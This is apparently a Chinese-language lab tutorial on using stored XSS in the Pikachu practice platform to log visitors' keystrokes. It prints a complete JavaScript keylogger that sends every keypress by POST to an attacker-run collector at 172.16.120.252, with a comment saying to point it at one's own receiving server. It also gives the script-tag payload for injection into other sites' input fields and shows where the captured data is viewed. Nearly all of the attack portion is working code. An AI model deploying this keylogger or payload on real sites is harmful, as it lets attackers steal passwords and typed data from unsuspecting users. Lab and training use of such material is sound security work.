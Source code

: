 ## 当前浏览器页面，输入的键盘记录
### 1、使用js代码进行记录
#### 进入js的容器内，查看键盘记录脚本
```shell script
root@f2e1fe30d200:/var/www/html/pkxss/rkeypress# cat /var//www/html/pkxss/rkeypress/rk.js 
/**
 * Created by runner on 2018/7/8.
 */

function createAjax(){
    var request=false;
    if(window.XMLHttpRequest){
        request=new XMLHttpRequest();
        if(request.overrideMimeType){
            request.overrideMimeType("text/xml");
        }

    }else if(window.ActiveXObject){

        var versions=['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
        for(var i=0; i<versions.length; i++){
            try{
                request=new ActiveXObject(versions[i]);
                if(request){
                    return request;
                }
            }catch(e){
                request=false;
            }
        }
    }
    return request;
}

var ajax=null;
var xl="datax=";

function onkeypress() {
    var realkey = String.fromCharCode(event.keyCode);
    xl+=realkey;
    show();
}

document.onkeypress = onkeypress;

function show() {
    ajax = createAjax();
    ajax.onreadystatechange = function () {
        if (ajax.readyState == 4) {
            if (ajax.status == 200) {
                var data = ajax.responseText;
            } else {
                alert("页面请求失败");
            }
        }
    }

    var postdate = xl;
    ajax.open("POST", "http://172.16.120.252:8085/pkxss/rkeypress/rkserver.php",true); # 需要修改到哪里到服务器，接收键盘记录；这个php脚本，是接收js传过来到键盘记录到的
    ajax.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    ajax.setRequestHeader("Content-length", postdate.length);
    ajax.setRequestHeader("Connection", "close");
    ajax.send(postdate);
```
### 2、找到存储型xss。输入payload
#### 这个payload是个自己搭建的恶意域名，在其他网站的输入框输入
```shell script
<script src="http://172.16.120.252:8085/pkxss/rkeypress/rk.js"></script>
```
### 3、登陆pikachu后台，进行查看
http://172.16.120.252:8085/pkxss/xssmanager.php
![image](https://github.com/498946975/Security/blob/master/images/xss_9.png)
![image](https://github.com/498946975/Security/blob/master/images/xss_10.png)
